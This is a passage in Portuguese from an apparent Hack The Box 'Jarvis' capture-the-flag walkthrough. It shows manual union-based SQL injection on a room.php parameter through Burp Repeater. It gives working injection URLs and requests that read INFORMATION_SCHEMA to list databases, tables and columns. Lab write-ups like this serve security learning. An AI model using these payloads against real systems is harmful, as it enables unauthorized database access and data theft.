 Atualizamos a página

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_b.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_b1.png)

Mandamos pro repeater

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_b2.png)

A ideia de mandar para o Burp é pra gente conseguir extrair os dados melhor, conseguir manipular melhor a requisição

Envio a requisição já com o ponto que é injetável escrito TESTE, para provar que consigo escrever ali

`/room.php?cod=9999999%20union%20select%20"1","2","TESTE","4","5","6","7"`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_b3.png)

## Extraindo Informações

Bom, agora que sabemos que temos um ponto que pode ser explorado vamos partir para outra parte, a explicação de como funciona a tabela SCHEMA

A tabela SCHEMA do banco de dados é interessante nós realizarmos o dump nela, uma vez que ela contém uma "prévia" de todas as outras tabelas

> https://dev.mysql.com/doc/refman/8.0/en/information-schema.html

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_b4.png)

Com a dica do site pentestmonkney.net eu começo a extração

> http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

SELECT SCHEMA_NAME from INFORMATION_SCHEMA.SCHEMATA LIMIT 1

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_b5.png)

Assim extraio o nome da database, que é hotel

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_b6.png)

Agora verifico todas as tabelas, para isso eu uso o group_concat

`GET /room.php?cod=999999+union+select+"1","2",(SELECT+group_concat(SCHEMA_NAME,":")+from+Information_Schema.SCHEMATA+LIMIT+1),"4","5","6","7" HTTP/1.1`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_b7.png)

Agora verifico quais campos se encontram nessa tabela `hotel` que nos pareceu a mais promissora

`GET /room.php?cod=999999+union+select+"1","2",(SELECT+group_concat(TABLE_NAME,":",COLUMN_NAME,"\r\n")+from+Information_Schema.COLUMNS+where+TABLE_SCHEMA+=+'hotel'),"4","5","6","7" HTTP/1.1`
